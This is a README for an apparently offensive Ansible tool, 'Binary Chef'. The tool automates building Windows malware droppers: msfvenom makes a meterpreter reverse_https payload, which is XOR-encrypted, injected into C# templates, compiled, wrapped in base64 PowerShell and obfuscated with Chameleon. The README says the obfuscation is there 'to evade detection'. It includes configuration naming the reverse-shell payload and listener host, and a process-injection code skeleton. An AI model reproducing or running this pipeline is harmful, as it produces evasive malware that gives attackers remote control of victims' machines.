
# Binary Chef

As of 2/1/2023, you can build executables, convert it to powershell, and obfuscate the *.ps1 automatically in Ansible!

This tool will help you with compiling executable binaries automatically. Using the Jinja Template, C# file, it accomplish automated insertion of shellcode block. Also it supports automated obfuscation in Chameleon

the execution steps are as in the following.

1. Uses msfencoder (msfvenom) to automatically create and encrypt the payload.
2. Based on Jinja template file of C#, it places the payload in the desired location in the C# source code.
3. Automatically compile C# files on Windows.
4. Encode the executables in base64 format, Import it to powershell module. 
5. Obfuscate Powershell script with chameleon, to evade detection.


*You'll need to have a simple infrastructure as in the image below.*


![graph](./image.png)

# Requirement


### Windows(Remote)

Run `Setup/ConfigureWinrmHTTPS.ps1` on your `windows` machine first to configure WinRM Service to enable HTTPS.
Ansible will need to connect via HTTPS.

> Please note that you need to have Visual Studio and .NET package installed on the windows machine.
> I have only have tested Visual Studio are "Visual Studio 2022 Community Version".


### Linux(Remote)

Just use Kali Linux.


### LocalMachine(Linux/MacOS)

You must configure the following 3.

- Connection Option
- Compiling Option
- Source Code Option

### Connection option

Configure the allocated IP for each Kali and Windows VM such as in the following forma. `host`

```yaml
[kali]
169.254.217.2

[kali:vars]
ansible_host=169.254.217.2
ansible_port=22
ansible_ssh_user=XXXXX
ansible_python_interpreter=python3
# Optional for SSH
# ansible_ssh_private_key_file=~/.ssh/kali.private

[windows]
169.254.217.3

[windows:vars]
ansible_host=169.254.217.3
ansible_user=XXXXX
ansible_password=XXXXX
ansible_connection=winrm
ansible_port=5986
ansible_winrm_server_cert_validation=ignore
ansible_winrm_scheme=https
#ansible_python_interpreter=c:\Python\python
ansible_python_interpreter=python3 
# Option for SSH
ansible_ssh_private_key_file=~/.ssh/win11.private
```

### Compiling option

you need `pip3 install pywinrm` to access windows with Ansible remotely.

Once you are able to connect to VMs, you need to specify the variables in `groups_vars/all.yaml`.

variable you need to change are `msfencoder` arguments and `compiler`.

```yaml
# Linux
## MsfEncode arguments
## msfencoder 169.254.217.2 443 cs xor 0xfa windows/meterpreter/reverse_https
server: 169.254.217.2
ports: 443
format: 'cs'
encrypt_method: 'xor'
encrypt_key: '0xfa'
payload: 'windows/meterpreter/reverse_https'

# Local Machine
## j2 Templates
src: ../../../codemaker/src/*.j2
## To store executables
out: ../../../codemaker/out


# Windows 
## Temp Folder
tempdir: C:/Temp/
## CSC.exe compiler
compiler: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe
```

### Source Code Option

the souce code C# will be put under `codemaker/src/`. please make sure you have the extension appended `.j2` (Jinja template), otherwise Ansible won't be able to render and modify files.

Once you have the template files, insert `{{ payloadContent }}` to specify the insertion point of shellcode that will be inserted by `msfencoder`.

```csharp
using System;

        public static void Main(string[] args)
        {
            {{ payloadContent }}
        
            // write the code you want...
            VirtualAllocEx();
            WriteProcessMemory();
            CreateRemoteThread();
        }
```

### Running ansible

This will ask you password for Kali VM, to execute as SUDO.

```bash
ansible-playbook build-binary.yaml --ask-become-pass
ansible-playbook encode-command.yaml
```
